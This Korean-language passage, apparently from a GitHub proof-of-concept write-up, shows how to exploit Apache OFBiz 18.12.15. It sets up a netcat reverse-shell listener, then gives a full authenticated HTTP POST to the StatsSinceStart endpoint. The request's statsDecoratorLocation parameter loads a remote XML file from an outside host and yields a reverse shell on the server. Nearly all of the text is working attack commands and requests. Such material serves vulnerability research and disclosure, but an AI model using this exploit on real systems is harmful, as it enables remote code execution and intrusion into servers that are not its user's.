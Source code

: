 ## 리버스 쉘 준비

리버스 쉘은 `nc` 명령어를 이용합니다.

```xml
nc -lvp 9999
```

![images](./images/image-004.png)

## StatsSinceStart 패킷 요청

다음의 요청 패킷을 Apache OFBiz 18.12.15 버전에 요청합니다. 이때, Cookie 의 값은 인증된 사용자의 `JSESSIONID` 값이여야 합니다.

```xml
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: localhost:8443
Cookie: JSESSIONID=<인증된 사용자의 JSESSIONID 값>;
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

statsDecoratorLocation=http://server.dottak.me:80/test.xml
```

위 요청이 정상적으로 수행된 경우 다음과 같이 리버스 쉘에서 Apache OFBiz 서버가 연결된 것을 확인할 수 있습니다.
